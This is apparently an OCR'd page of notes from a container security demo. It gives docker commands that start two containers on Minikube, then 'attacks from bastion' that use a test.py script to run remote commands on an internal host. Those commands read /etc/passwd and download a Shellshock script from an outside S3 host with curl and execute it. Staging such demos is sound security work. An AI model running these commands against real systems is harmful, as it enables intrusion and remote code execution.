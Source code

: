 
Commands for Minikube
docker run -p 8082:80 -d --name melon 650143975734.dkr.ecr.ap-southeast-1.amazonaws.com/trendsh-uno-melon
docker run -p 8081:8080 -d --name grapefruit 650143975734.dkr.ecr.ap-southeast-1.amazonaws.com/trendsh-uno-grapefruit


Attacks from Bastion
C:\Python27\python.exe test.py minikube.bryceinternal.com:8081 ls
C:\Python27\python.exe test.py minikube.bryceinternal.com:8081 "cat /etc/passwd"
C:\Python27\python.exe test.py minikube.bryceinternal.com:8081 "curl -o /shellshock.sh https://henry-chan.s3.amazonaws.com/shellshock-config.sh"
C:\Python27\python.exe test.py minikube.bryceinternal.com:8081 "sh /shellshock.sh"